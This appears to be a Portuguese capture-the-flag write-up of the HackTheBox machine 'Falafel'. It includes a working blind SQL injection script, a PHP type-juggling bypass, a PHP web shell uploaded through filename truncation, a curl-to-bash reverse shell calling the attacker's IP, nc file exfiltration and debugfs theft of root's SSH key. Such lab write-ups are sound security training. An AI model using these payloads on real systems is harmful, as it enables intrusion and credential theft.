




<h1> Resolução da máquina <b>Falafel</b></h1>

<h4> 1.0.0.1. Máquina HARD (hackthebox.com)</h4>

<h4> 1.0.0.2. by <b><i>JavaliMZ</i></b> - 09/09/2021</h4>

---

---

- [1. Enumeração](#1-enumeração)
  - [1.1. Nmap](#11-nmap)
- [2. WebSite](#2-website)
  - [2.1. Fuzzing the website](#21-fuzzing-the-website)
  - [2.2. SQLi](#22-sqli)
  - [2.3. RCE](#23-rce)
    - [2.3.1. Reverse Shell](#231-reverse-shell)
- [3. PrivEsc](#3-privesc)
  - [3.1. Group video](#31-group-video)
  - [3.2. Group disk](#32-group-disk)
  - [3.3. debugfs](#33-debugfs)

---

# 1. Enumeração

## 1.1. Nmap

Na fase de enumeração, a ferramenta _nmap_ tem um lugar imprescindível!! É possível enumerar portas manualmente, com um simples _for loop_ e um _echo para o /dev/tcp/\<IP>/\<PORT>_, mas, para além do nmap ser mais controlável em termo de rendimento, tem também montes de scripts.nse que podem descobrir coisas sobre cada porta aberta.


O resultado do nmap indica-nos que estamos que o nosso alvo é uma máquina Linux, com apenas as portas 22 e 80 abertas. As versões dos serviços correndo nessas portas não parecem ter vulnerabilidades críticas, por isso estamos certos que o ponto de entrada é o servidor WEB

# 2. WebSite


Só pela página principal, já obtemos informações potencialmente úteis. Temos um email (IT@falafel.htb) e com isso, podemos suspeitar existir um usuário (IT) e virtual hosting (falafel.htb).

```bash
# Adicionar o host ao /etc/hosts
echo -e "10.10.10.73\tfalafel.htb" >> /etc/hosts
```

Apesar de ser uma suspeita plausível, não existe virtual host.

## 2.1. Fuzzing the website

Antes de falar da página do Login (que é por aí que se vai penetrar a máquina!), irei falar sobre as rotas e potenciais ficheiros da máquina.

```bash
# Primeira enumeração básica de rotas
ffuf -c -u http://10.10.10.73/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 200 -r

#>  assets                  [Status: 403, Size: 293, Words: 22, Lines: 12]
#>  css                     [Status: 403, Size: 290, Words: 22, Lines: 12]
#>  js                      [Status: 403, Size: 289, Words: 22, Lines: 12]
#>  uploads                 [Status: 403, Size: 294, Words: 22, Lines: 12]
#>  images                  [Status: 403, Size: 293, Words: 22, Lines: 12]
                        #>  [Status: 200, Size: 7203, Words: 774, Lines: 110]
#>  server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```

Vemos um diretório **upload**. Mas por enquanto nada de mais... Temos de procurar mais...

O segundo scan que quero rodar é por ficheiros. Sabemos que é um servidor apache com auxilio do nmap, por isso podemos supor que o servidor funcione com ficheiros php. Além disso, o botão de login nós redirige para um login.php. Posto isso, o nosso próximo scan vai ser para procurar ficheiros com extenções php. Podemos também procurar por ficheiros txt...

```bash
ffuf -c -u http://10.10.10.73/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 200 -r -e .txt,.php

#>  profile.php             [Status: 200, Size: 7063, Words: 878, Lines: 103]
#>  uploads                 [Status: 403, Size: 294, Words: 22, Lines: 12]
#>  header.php              [Status: 200, Size: 288, Words: 10, Lines: 18]
#>  footer.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
#>  upload.php              [Status: 200, Size: 7063, Words: 878, Lines: 103]
#>  css                     [Status: 403, Size: 290, Words: 22, Lines: 12]
#>  style.php               [Status: 200, Size: 6174, Words: 690, Lines: 69]
#>  index.php               [Status: 200, Size: 7203, Words: 774, Lines: 110]
#>  js                      [Status: 403, Size: 289, Words: 22, Lines: 12]
#>  login.php               [Status: 200, Size: 7063, Words: 878, Lines: 103]
#>  logout.php              [Status: 200, Size: 7063, Words: 878, Lines: 103]
#>  robots.txt              [Status: 200, Size: 30, Words: 3, Lines: 2]
#>  assets                  [Status: 403, Size: 293, Words: 22, Lines: 12]
#>  images                  [Status: 403, Size: 293, Words: 22, Lines: 12]
#>  cyberlaw.txt            [Status: 200, Size: 804, Words: 106, Lines: 18]
#>  connection.php          [Status: 200, Size: 0, Words: 1, Lines: 1]
#>  .php                    [Status: 403, Size: 290, Words: 22, Lines: 12]
#>                          [Status: 200, Size: 7203, Words: 774, Lines: 110]
#>  server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]

```

> O que é isso de cyberlaw.txt?!


Bem, isto nos trás algumas informações...

-   Potencial users:
    -   devs (de devs@falafel.htb)
    -   lawyers (de lawyers@falafel.htb)
    -   chris (do próprio texto)
    -   admin (da "assinatura")

Ainda nos diz que o usuário chris conseguiu ter FULL CONTROL do site usando um recurso de uploads de imagens, que ainda não descobrimos. Sabemos ainda que o url de upload de imagens está filtrado, por isso não deve ser assim tão fácil... Prossigamos

## 2.2. SQLi

Quando abrimos a página http://falafel.htb/ de um browser, vemos então um botão login. Ao por credenciais por defeito do tipo _admin:admin, admin:password, test:test..._, verificamos que poderá existir um usuário admin, pois temo uma mensagem de erro que diz **"Wrong identification : admin"**. Outros usuários aleatórios nos dá a mensagem **"Try again.."**. Agora, e com a tal mensagem de cyberlaw.txt, podemos assumir que o usuário **"admin"** existe.



Nos servidores em php, é muito commum controlarem o login e outras coisas com uma base de dados MySQL ou similar. Podemos tentar fazer o login com o clássico **"' or 1=1 -- -"** tanto no campo user como no campo password. Obtemos o mesmo erro **"Wrong identification : admin"**. Isto é um claro sinal que este campo é vulnerável a SQLi (SQL injection).

Temos mensagens distintas, mas não temos o erro SQL concreto! Por isso não é bem um blind SQLi, mas também não é assim tão claro.

Ao tentar por **"admin' and sleep(5)"**, temos um erro diferente: **"Hacking Attempt Detected!"**. UHUUU O FBI NOS DETECTOU LOOOL...Bem, isto parece um tipo de filtro a palavar chaves, porque ao escrever apenas e só a palavra **"sleep"** ou **"union"**, optemos o mesmo erro...

Como não vemos nada, mas sabemos como são de uma maneira geral feitas as bases de dados, podemos tentar descobrir o nome da coluna. Ao escrever **admin' and substring(username,1,1)='a'-- -**, estamos a dizer que, para o usuário _admin_, queremos saber se na coluna de nome _username_, a letra positionada na 1ª posição é igual a _'a'_. E isso já nós sabemos. **_admin_** começa pela letra **_'a'_**.

```txt
admin' and substring(username,1,1)='a'-- -
```

Obtemos a mesma mensagem de erro (Wrong identification : admin), e se pusermos qualquer outra letra, obtemos outro erro (Try again..) por a primeira letra não corresponder. Isso é muito bom sinal...

```txt
admin' and substring(username,2,1)='d'-- -
```

Ao testar para o segundo caractere, obtemos o mesmo resultado, apenas optemos (Wrong identification : admin) quando acertamos na letra **_'d'_**. Mas porquê "Wrong identification : admin"? A query no código php deve estar a fazer uma comparação, entre admin e admin, e nós adicionamos 'and substring(username,1,1)='a'. Só passa para a verificação seguinte se o "admin" existir, **e se** "a sua primeira letra for 'a'". Depois de validar o campo user, fica barrado pela password, pois não a temos... Então, quando acerto na substring, vai me responder "Wrong identification". Posto isso, podemos enumerar todos os campos de todas as tabelas da base de dados desta forma. O único problema é que não temos ideia do nome dessas tabelas nem das suas colunas... Mas também não persisamos saber tudo! Basta-nos a password! Seguindo o mesmo princípio, podemos tentar com o nome de coluna password (por ser comum e normal de ser chamdo assim): **admin' and substring(password,1,1)='0...1...2...3...até...ao...z'-- -**. Manualmente, iria ser possível, mas apenas com 3 litros de café e pausas de 2 em 2 horas! Vamos automatizar isso em python:

```python
import requests
import re
from pwn import log


def sendRequest(code):
    url = "http://falafel.htb/login.php"
    header = {"Cookie": "PHPSESSID=0tpuo9bnh5jo18ibamo44q3ej0"}
    data = {"username": code, "password": "password"}

    res = requests.post(url, headers=header, data=data).text
    res = res.replace("\n", " ").replace("\t", " ")
    regexPattern = r"<br>(.*?)</br>"
    res = re.findall(regexPattern, res)[0].strip()
    return res


def getPassword(username):
    l1 = log.progress(username)
    password = ""
    chars = "0123456789abcdefghijklmnopqrstuvwxyz"
    continueSearching = True
    for position in range(1, 100):
        if continueSearching:
            for char in chars:
                code = f"{username}' and substring(password,{position},1)='{char}'-- -"
                if "Wrong identification" in sendRequest(code):
                    password += char
                    l1.status(password)
                    break
                if char == "z":
                    continueSearching = False


def main():
    getPassword("chris")
    getPassword("admin")


main()
```

Este script deu como resultado essas credenciais:

-   chris: d4ee02a22fc872e36d9e3751ba72ddc8
-   admin: 0e462096931906507119562988736854

Credenciais, não... São hashes, e provavelmente poderão ser crackeadas online com uma ferramenta de rambow tables crackstation.net:


> Optemos um resultado ==> chris:juggling



Essas credenciais são válidas para a página de login! E ao entrar, deparamos-nos com a página de apredentação do chris, com um TIPS: _TYPE-JUGGLING_

O hash do usuário "admin" tem uma particularidade. 0e462096931906507119562988736854. Em php, o string "0e462096931906507119562988736854" == 0 ( ou "0" == 0, ou qualquer "0e<numeros...>" == 0) porque php interpreta este 0e\<quaiqueres numeros> por **\*zero vezes 10 elevado a quaiqueres números** que efectivamente dá zero. Existe ainda em php duas formas de comparar valores.

-   == - loose comparisons (compara apenas valores) ("0" == 0.0000 => true)
-   === - strick comparisons (compara valores, e tipos de valores) ("0" == 0.0000 => false)

Se o código php estiver a fazer uma comparação com apenas 2 iguais **"=="**, poderá aceitar toda e qualquer palavra passe cuja a sua MD5 é 0e<numeros...>

Na internet, podemos encontrar muitas dessas passwords. Irei tentar com "NWWKITQ"

> admin:NWWKITQ (Não é a password real, apenas deu por juggling bypass)

Login efectuado com sucesso!


## 2.3. RCE

Encontramos o tal painel de upload que chris mencionou. Neste momento, o objectivo é enviar um reverse shell para a máquina vítima, e tentat aceder via URL para o mesmo ser executado. O primeiro passo é descobrir que tipo de ficheiro aceita. A caixa de upload indica ficheiros.png. Vou partilhar um servidor http com uma imagem.png.

```bash
sudo python3 -m http.server 80
```

Conseguimos realmente enviar uma imagem. E a resposa é muito incomum! A resposta parece-se muito com um commando bash, um cd para uma pasta, e um wget para o nosso ficheiro de imagem. Tentei burlar o site de diversas formas (Dupla extensão, mudar o MIME TYPE, concatenar comando com ponto e virgula, &&, ||... mas nada).

A forma de enviar um ficheiro malicioso é surpreendente! O Linux não aceita nomes de arquivos que tenha mais do que 255 caracteres. E o wget está feito para limitar isso, para garantir que receba os arquivos da internet, mesmo com nomes ridiculamente enormes... Tentei então enviar um arquivo de imagem com exatamente 255 caracteres (251 + .png).

```bash
# Copia da imagem para um arquivo com nome de 251 caracteres seguindo um padrão para depois poder saber ao certo qual é o ponto exacto onde o wget corta o nome
cp shell.png $(msf-pattern_create -l 251).png
```


Pela resposta, sabemso que foi enviado com successo, e que o nome foi alterado, tendo como fim o h7Ah.´

```bash
msf-pattern_offset -q h7Ah
#>  [*] Exact match at offset 232
```

Este "Exact match at offset 232" é feito para bufferoverflow, que normalmente seria o ponto que ficaria no ESP, sendo que não é bem esse o ponto certo. O ponto certo é 236 caracteres, mas como ainda temos de adicionar 4 caracteres para o ".png", até que dá jeito este erro lol.

Cração de um ficheiro malicioso:

```php
<?php
    echo "\nURL Shell... url?cmd=<command>\n\n";
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Resumindo:

-   O ficheiro tem obrigatoriamente que terminar por ".png"
-   O servidor apache interpreta código php
-   O wget da página de upload corta os nomes muito grandes a partir do caractere 236.

Posto isso, se renomearmos o nosso ficheiro malicioso por um arquivo com (232 carateres + .php + .png), o nome do arquivo irá ser cortado a partir do 236º caracter e ficará assim: (232 chars + .php)

```bash
cp shell.php $(msf-pattern_create -l 232).php.png
# Agora que temos o número exato de caracteres, poderíamos ter chamado o ficheiro com 232 "A"... mas na altura não me lembrei e o nome está um pouco agressivo para os olhos!
```

Resultado:

> http://10.10.14.17/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php.png


Note the path of the file and go to the webshell Ok, conseguimos enviar um arquivo, que aparentemente agora está na máquina alvo com a extensão .php. E onde está? Bem, no resultado o comando wget, vemos que antes de fazer o download do arquivo, fez um cd para uma pasta. E sabemos ainda que existe uma rota uploads... Ao juntar tudo, podemos tentar ir para a seguinte url(no meu caso):

> http://10.10.10.73/uploads/0909-2054_bd1a63d419ed6bf6/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=whoami


Temos Execução de código remoto!

### 2.3.1. Reverse Shell

A forma mais fácil de ter um reverse shell sem ter muitos problemas com caracteres especiais e assim é partilhar um ficheiro com o código do reverse shell lá dentro, para depois fazer um curl e pipeá-lo com um bash (sim pipeá-lo, neste blog, este verbo existe xD)

Criei então um ficheiro com o nome rev.html contendo o seguinte código:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.17/443 0>&1
```

Partilhe então um servidor http com este ficheiro, para que através do RCE, poder dar um curl ao ficheiro, e pipeá-lo com bash

```bash
sudo python3 -m http.server 80  # On one terminal
sudo nc -lvnp 443               # On another one
```

> http://10.10.10.73/uploads/0909-2054_bd1a63d419ed6bf6/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6A.php?cmd=curl%20http://10.10.14.17/rev.html|bash

# 3. PrivEsc

Já dentro da máquina, ao vasculhar os ficheiros, pode-se encontrar credenciais em /var/www/html/connection.php

```bash
(remote) www-data@falafel:/var/www/html$ cat connection.php
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```

Estas credenciais server para fazer login ao MySQL, mas se reutilizar-mos as credenciais para fazer login por ssh, vemos que as credenciais são válidas!

## 3.1. Group video

Esta máquina é um CaptureTheFlag LOL... O próximo passo é completamente irrealista, mas não deixa de ser interessante. Esta máquina não tem mais vulnerabilidades. Ok, então onde estão as credenciais do usuário "yossi"?! Estão no ecrã...

com o commando "w" podemos ver que o yossi está actualmente logado fisicamente na máquina

```bash
w
#>   22:31:32 up 10:23,  2 users,  load average: 0.00, 0.00, 0.00
#>  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
#>  yossi    tty1                      12:08   10:22m  0.06s  0.06s -bash
#>  moshe    pts/1    10.10.14.17      22:06    0.00s  0.06s  0.00s w
```

O usuário com o qual estamos neste momento (moshe) está no grupo "video". Os usuário deste grupo pode ver o que está a ser transmitido para o ecrã. E para tirar uma captura de ecrã sem nenhum recurso adicional, pode-se ir à fonte mesmo. Isto é, capturar o que está em /dev/fb0 com um simples cat. Para ler este arquivo (que vem em formato RAW), temos de saber as dimenções da tela, pois este formato não diz nada sobre dimenções, apenas escreve todos os dados numa linha só e "tá feito". As dimenções actuais do ecrã estão sempre definidas em /sy/class/graphics/fb0/virtual_size

```bash
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
#> 1176,885
```

Recupere a captura de ecrã para o kali

```bash
nc 10.10.14.17 443 < /tmp/screen.raw  # Target Machine
nc -lvnp 443 > screen.raw             # kali Machine
```

Abrir o ficheiro com ajuda do GIMP, definido manualmente que este ficheiro é um ficheiro RAW com 1176,885 de dimenções...






Entre agora por ssh com o usuário yossi e a sua credencial (que de passagem só se vê porque o yossi errou primeiro ao introduzi-la e por "grande sorte" ainda está a vista na tela looooool)

## 3.2. Group disk

```bash
for group in $(groups); do echo -e "\n\n\n[*] Archive with group $group permition:\n"; find / -group $group 2>/dev/null; done
```

Este commando permite-nos enumerar todos os ficheiro no qual pertence a cada grupo no qual está o usuário. E assim, vemos que o usuário yossio em que estamos logados, tem permissões através do grupo "disk" de leitura e escritura sobre /dev/sda1 e muito mais...

Este /dev/sda1 é muito simplesmente o disco rígido na qual está instalado o prórpio sistema operativo. Mas não dá para abrir assim...

```bash
fdisk -l
#>  Disk /dev/sda: 8 GiB, 8589934592 bytes, 16777216 sectors
#>  Units: sectors of 1 * 512 = 512 bytes
#>  Sector size (logical/physical): 512 bytes / 512 bytes
#>  I/O size (minimum/optimal): 512 bytes / 512 bytes
#>  Disklabel type: dos
#>  Disk identifier: 0x01590ad6
#>
#>  Device     Boot    Start      End  Sectors  Size Id Type
#>  /dev/sda1  *        2048 14680063 14678016    7G 83 Linux
#>  /dev/sda2       14682110 16775167  2093058 1022M  5 Extended
#>  /dev/sda5       14682112 16775167  2093056 1022M 82 Linux swap / Solaris


ll /dev/sda1
#>  brw-rw---- 1 root disk 8, 1 Sep  9 12:08 /dev/sda1
```

## 3.3. debugfs

Com a ajuda da ferramente debugfs (ext2/ext3/ext4 file system debugger). Podemos ver ou manipular uma partição, um disco ou o seu conteúdo. Podemos assim facilemente ver a flag root.txt, mas a nós o que nos interessa é vir a ser root! Por sorte, em /root/.ssh existem keys para entrar por ssh, já autorizadas... nem percisamos de fazer mais nada. É só copiar e usar a id_rsa:

```bash
debugfs /dev/sda1
debugfs: cd /root/.ssh
debugfs: cat id_rsa  # copy the content...
# Exit the debugfs

cd /tmp
nano id_rsa  # paste the content...
chmod 600 id_rsa
ssh -i id_rsa root@localhost


cat /home/moshe/user.txt
#> c866575ed5999e1a878b1494fcb1f9d3
cat /root/root.txt
#> 23b79200448c62ffd6f8f2091c001fa1
```
